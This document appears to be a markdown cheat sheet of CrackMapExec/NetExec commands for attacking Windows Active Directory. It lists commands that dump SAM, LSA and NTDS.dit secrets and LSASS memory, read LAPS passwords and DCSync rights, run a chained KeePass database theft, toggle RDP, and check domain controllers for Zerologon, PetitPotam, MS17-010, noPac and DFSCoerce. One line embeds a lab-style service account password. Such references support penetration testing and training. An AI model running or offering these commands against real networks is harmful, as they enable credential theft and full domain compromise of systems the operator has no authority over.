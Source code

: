
## Extracting Secrets 

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> --sam` | Dump SAM on the target. |
| `cme smb <target> -u <u> -p <p> --lsa` | Dump LSA on the target. |
| `cme smb <target> -u <u> -p <p> --ntds` | Dump NTDS.dit on the domain controller using drsuapi method. | 
| `cme smb <target> -u <u> -p <p> --ntds vss` | Dump NTDS.dit on the domain controller using the VSS method. |
| `cme smb <target> -u <u> -p <p> -M lsassy` | Dump the memory of the LSASS process with lsassy. |
| `cme smb <target> -u <u> -p <p> -M procdump` | Dump the memory of the LSASS process with procdump. |
| `cme smb <target> -u <u> -p <p> -M handlekatz` | Dump the memory of the LSASS process with handlekatz. |
| `cme smb <target> -u <u> -p <p> -M nanodump` | Dump the memory of the LSASS process with nanodump. |

---

## Popular Modules 

| **Command**| **Description**|
|-|-|
| `cme [protocol] -M <module_name> --options` | Show module options. | 
| `cme ldap  <target> -u <u> -p <p> -M get-network -o ALL=true` | Get DNS and IP information. |
| `cme ldap  <target> -u <u> -p <p> -M laps` | Retrieve all computers an account has access to read. |
| `nxc ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb --module laps` | Retrieve all computers an account has access to read. |
| `cme ldap  <target> -u <u> -p <p> -M maq` | Get the machine account quota for a user. |
| `cme ldap  <target> -u <u> -p <p> -M daclread -o TARGET=<username> ACTION=<read>` | Read all ACEs of the target account. |
| `cme ldap  <target> -u <u> -p <p> -M daclread -o TARGET_DN=<DN> ACTION=read RIGHTS=DCSync` | Read all objects with DCSync privileges. |
| `cme smb <target> -u <u> -p <p> -M keepass_discover` | Locate the KeePass configuration file in the target machine. |
| `cme smb <target> -u <u> -p <p> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=<PATH_TO_KEEPASS_CONF>` | Perform a chain attack to obtain the KeePass database. |
| `cme smb <target> -u <u> -p <p> -M rdp -o ACTION=<enable/disable>` | Enable or Disable RDP. |

---

## Vulnerability Scan Modules 

| **Command**| **Description**|
|-|-|
| `cme smb <target> -M Zerologon` | Module to check if the DC is vulnerable to Zerologon, aka CVE-2020-1472. |
| `cme smb <target> -M PetitPotam` | Module to check if the DC is vulnerable to PetitPotam, credit to @topotam. |
| `cme smb <target> -M ms17-010` | Module to check if the target is vulnerable to MS17-010. |
| `cme smb <target> -u <u> -p <p> -M nopac` | Check if the DC is vulnerable to CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user. |
| `cme smb <target> -u <u> -p <p> -M dfscoerce` | Module to check if the DC is vulnerable to DFSCocerc, credit to @filip_dragovic/@Wh04m1001 and @topotam. |